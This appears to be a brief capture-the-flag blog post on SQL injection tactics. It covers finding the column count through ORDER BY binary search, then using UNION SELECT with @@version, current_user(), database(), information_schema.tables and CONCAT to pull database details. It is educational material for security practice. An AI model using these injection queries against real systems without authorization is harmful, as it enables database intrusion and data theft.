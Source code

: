 ```yaml
---
title: Strategy in SQL injection
date: 2020-09-08 03:47:03
updated:
tags:
 - CTF
cover: /img/SQL-injection.jpg
---
```

### Union Operator

<https://www.w3schools.com/sql/sql_union.asp>

### use ORDER BY keyword to guess the number of column in O(logN)

```text
DB_NAME: Customers
CustomerID 	CustomerName 	          Country
1           Alfreds Futterkiste       Germany
2 	        Ana Trujillo Emparedados  Mexico
3  	        Antonio Moreno Taquería   Mexico
4           Around the Horn 	      UK
5 	        Berglunds snabbköp 	      Sweden

```

For example, `SELECT * FROM Customers ORDER BY Country` will sort customers column in Country order.

Fortunately(or unfortunately), you can use numbers of the column to indicate the column you want, which means you can do exactly the same thing using `SELECT * FROM Customers ORDER BY 3`.

So, if you apply binary search idea here, you can guess the column number very quickly:

 - `SELECT * FROM Customers ORDER BY 3` will not return an error since the number of columns is less than or equal of 3
 - `SELECT * FROM Customers ORDER BY 4` will return an error since the number of columns is more than 3
 - `SELECT * FROM Customers ORDER BY 2` will not return an error since the number of columns is less than or equal of 2

After a few query, we can assert the column number is *3*. You can then use this number in _UNION_ command

### get information about current SQL database

`@@version` shows the SQL version. For example: `SELECT * FROM Customers UNION SELECT 1,2,@@version`
`current_user()` shows the current user. For example: `SELECT * FROM Customers UNION SELECT 1,2,current_user()`
`database()` shows the current database. For example: `SELECT * FROM Customers UNION SELECT 1,2,database()`

Using meta information, you can access more information. 
<https://www.mssqltips.com/sqlservertutorial/179/sql-server-informationschema-views-tutorial/>

`SELECT table_name FROM information_schema.tables`
you can union this when doing SQL injection.

you can use `CONCAT` to get more information if you are limit by the column number in UNION.
`SELECT * FROM Customers UNION SELECT 1,2,CONCAT(3,4),5`